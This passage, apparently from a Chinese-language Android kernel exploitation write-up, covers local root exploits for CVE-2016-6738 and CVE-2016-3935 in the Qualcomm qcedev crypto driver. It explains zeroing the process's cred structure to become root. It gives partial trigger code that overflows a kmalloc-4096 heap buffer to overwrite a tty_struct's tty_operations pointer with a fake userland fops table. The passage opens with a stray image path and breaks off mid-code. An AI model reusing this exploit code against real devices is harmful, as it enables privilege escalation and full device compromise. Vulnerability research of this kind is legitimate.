 ```c
        
        return 0;
}
```

搜索到本进程的 cred 结构体，并使用我们封装的内核读写函数，将其成员的值改为0，这样本进程就变成了 root 进程。
搜索本进程 **task_struct** 的函数 **get_task_by_comm**  具体实现参考 github 的代码。


### CVE-2016-3935 漏洞利用 [[^]](#top)

<span id="CVE-2016-3935-exp"></span> 

这个漏洞的提权方法跟 6738 是一样的，唯一不同的地方是，这是一个堆溢出漏洞，我们只能覆盖堆里边的 fops (cve-2016-6738 我们覆盖的是 .data 区里的 fops )。

在我测试的版本里，k_buf_src 是从 kmalloc-4096 分配出来的，因此，需要找到合适的结构来填充 kmalloc-4096 ，经过一些源码搜索，我找到了 **tty_struct** 这个结构

```c

include/linux/tty.h
struct tty_struct {
        int     magic;
        struct kref kref;
        struct device *dev;
        struct tty_driver *driver;
        const struct tty_operations *ops;
        int index;
...
}

```
在我做利用的设备里，这个结构是从 kmalloc-4096 堆里分配的，其偏移 24Byte 的地方是一个 **struct tty_operations** 的指针，我们溢出后重写这个结构体，用一个用户态地址覆盖这个指针。

```c

#define TTY_MAGIC               0x5401
void trigger(int fd)
{

#define SIZE 632 // SIZE = sizeof(struct tty_struct)

        int ret, cmd, i;
        struct  qcedev_sha_op_req params;
        int *magic;
        unsigned long * ttydriver;
        unsigned long * ttyops;

        memset(&params, 0, sizeof(params));
        params.entries = 9;
        params.data_len = SIZE;
        params.authklen = 16;
        params.authkey = &trigger_buf[0];
        params.alg = QCEDEV_ALG_AES_CMAC;

// when tty_struct coming from kmalloc-4096
        magic =(int *) &trigger_buf[4096];
        *magic = TTY_MAGIC;
        ttydriver = (unsigned long*)&trigger_buf[4112];
        *ttydriver = &trigger_buf[0];
        ttyops = (unsigned long*)&trigger_buf[4120];
        *ttyops = fake_ptm_fops;
        params.data[0].len = 4128;
        params.data[0].vaddr = &trigger_buf[0];
        params.data[1].len = 536867423 ;
```